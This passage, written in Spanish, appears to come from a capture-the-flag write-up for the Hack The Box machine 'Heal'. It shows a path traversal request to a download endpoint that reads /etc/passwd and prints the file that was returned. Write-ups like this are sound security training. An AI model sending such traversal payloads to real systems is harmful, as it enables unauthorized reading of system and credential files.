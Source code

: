 Con la peticion de http://api.heal.htb/download?filename=../../../../../etc/passwd obtuve acceso a el fichero passwd por lo que el ataque ha tuvo exito.

![alt text](../assets/images/heal/image-31.png)

```textplain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
```